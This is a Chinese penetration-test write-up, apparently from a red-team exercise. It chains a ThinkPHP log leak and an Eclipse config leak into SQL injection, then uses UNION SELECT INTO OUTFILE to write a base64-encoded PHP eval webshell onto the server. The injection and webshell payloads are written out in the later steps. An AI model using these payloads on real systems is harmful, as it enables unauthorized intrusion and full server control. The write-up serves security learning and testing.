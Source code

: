 

# 奇安信攻防社区-【Web实战】记一次日志泄露到GetShell

### 【Web实战】记一次日志泄露到GetShell

在一次攻防演练中，遇到这么一个站点 该站点基于ThinkPHP框架开发，且存在日志泄露，故事就从这个日志泄露开始了 信息收集 1. 老话说的好，渗透的本质就是信息收集,而信息搜集整理为后续的情报...

在一次攻防演练中，遇到这么一个站点

该站点基于ThinkPHP框架开发，且存在日志泄露，故事就从这个日志泄露开始了

## **信息收集**

1\. 老话说的好，渗透的本质就是信息收集,而信息搜集整理为后续的情报跟进提供了强大的保证，进入该站点发现只有三个功能点，逐个进行查看

![image.png](assets/1699406870-625a3c17e38253812627191a85aba4aa.png)

2\. 进入第一个功能点

。。。发现直接报404，还有条狗看着家

![image.png](assets/1699406870-d6517a3c603f17a74f590af47c7da97e.png)

3\. 进入第二、三个功能点，发现是一个注册表单，第三个也为404

![image.png](assets/1699406870-8db98920ca4226463d5f6f3e669b1fa9.png)

4\. 他写三个难道就只有三个功能嘛？我不信，开扫！

敏感文件这不就来了嘛

![image.png](assets/1699406870-0759c26ed58989ce0fc8ac0e76a97e32.png)

5.通过目录扫描发现该站点存在eclipse配置文件泄露

访问/.settings/org.eclipse.core.resources.prefs 获取到项目里的所有功能点

![image.png](assets/1699406870-8dad20f63e0a61720421be57a8156106.png)

org.eclipse.core.resources.prefs解释

org.eclipse.core.resources.prefs文件其实就是规定项目内的文件的编码用的。一般来说一个项目里的文件编码需要一致，特别是文件文本内容本身无法指示文件本身编码的（比较绕，XML文件第一行能指示自身编码，CSS也有这个能力但用得不多），尽量不要多种编码同时存在（最好在编码规范中禁止多重编码同时存在的现象发生）

[Eclipse中.setting目录下文件介绍](https://www.cnblogs.com/shihaiming/p/5803957.html)

6.该站点基于ThinkPHP框架开发，上工具跑出日志泄露

![image.png](assets/1699406870-d24f8a6db3056976a435e252d774eee2.png)

该工具下载地址：

[https://github.com/Lotus6/ThinkphpGUI](https://github.com/Lotus6/ThinkphpGUI)

## **进行测试**

挨个访问功能页面

有两个上传点，尝试上传

![image.png](assets/1699406870-3d312a5210dc627a260e9c2d3a21fc95.png)

发现403了...

![image.png](assets/1699406870-dd0fac7d313511505d521ee248de1a1d.png)

7.逛完一圈发现后台路径被改，文件上传403，功能都改了或者删掉了

没头绪。。。

去翻翻日志吧。。。

喔唷~这是啥，这不是我前台测试时打的单引号嘛

日志中居然存在Sql执行语句

![image.png](assets/1699406870-7cdcc90f2f131e39b515adc0d2096a2b.png)

![image.png](assets/1699406870-5279461ab3b38f366ada6cd5fc8f7642.png)

8.Sql语句记录到日志中，并发现Sql语句报错信息，语句闭合为 )

这时候就可以靠 ThinkPHP日志泄露 + Sql注入打一个组合拳了，以后谁还敢说ThinkPHP日志泄露没危害的！

![image.png](assets/1699406870-05faec0779d81397afb3f52e9d9e75cf.png)

![image.png](assets/1699406870-39b8c55907cdd66ff32c57e688d565fe.png)

9.开始着重对该功能进行测试

因为该功能点有验证码，便对其进行手测，成功获取到MariaDB数据的版本信息，与权限信息

![image.png](assets/1699406870-c5085969c13fb0c51d68f65483e49a0e.png)

![image.png](assets/1699406870-9bf4627705f7be9c574187d9c299a370.png)

10.开始读文件，可是没有物理路径咋办呢，那就找！

在目录扫描的时候存在一个demo目录，这不就有了吗

![image.png](assets/1699406870-e9d931c7537cdbb5803e70868c2fa219.png)

11.为啥要读文件呢，因为查权限就没那个必要，还浪费时间，能读就能写。

尝试读取win.ini，跟本地win.ini做对比，发现成功读取到win.ini

![image.png](assets/1699406870-97de087180853b9821907bf0f1d984ff.png)

12.可是接下来头又痛了，使用order by 判断表列数不回显，且日志不记录Sql语句，有验证码又懒得构造盲注语句了。

![image.png](assets/1699406870-8be81f514ba003a3e77837db9a082f1f.png)  
那咋办？只能掏笨方法了

13\. 先用union select 尝试写一下文件看看报什么错

![image.png](assets/1699406870-9cec4c6391dc2a288ad9668f71aa6465.png)

**The used SELECT statements have a different number of columns**

提示列数不同，也就是我写的列数不对，继续测试

14\. 直接手动判断列数写文件,最终在第9列成功写入文件  
从  
`1) union select 1 into outfile 'xxx\/reg\/upload\/1.php' --+` 

到  
`1) union select 1,2,3,4,5,6,7,8，'1' into outfile 'xxx\/reg\/upload\/1.php' --+`

![image.png](assets/1699406870-264e4ff0c3c58b1bc68c81d4f7841cb9.png)

![image.png](assets/1699406870-29259638a1a7fc8fd073a7d5901e7821.png)

## **写入Webshell**

15.

构造语句：

`1) union select 1,2,3,4,5,6,7,8,from_base64('PD9waHAgZXZhbChnenVuY29tcHJlc3MoYmFzZTY0X2RlY29kZSgnZUp4TExVdk0wVkNKRC9BUERvbFdUODVOVVkvVnRBWUFSUVVHT0E9PScpKSk7Pz4=') into outfile 'xxxx\/reg\/upload\/7fa0b347c86e45522a1d6606731002c9.php' --+`

成功获取到Webshell，到后面发现，那条安全狗根本就没用~.~

![image.png](assets/1699406870-b570181ea96a0589e719d4758398e82d.png)

当然不建议各位用这个笨方法，因为有些表的列数特别多  
好几十条，还是得先判断的  
结束，拿Shell收工！
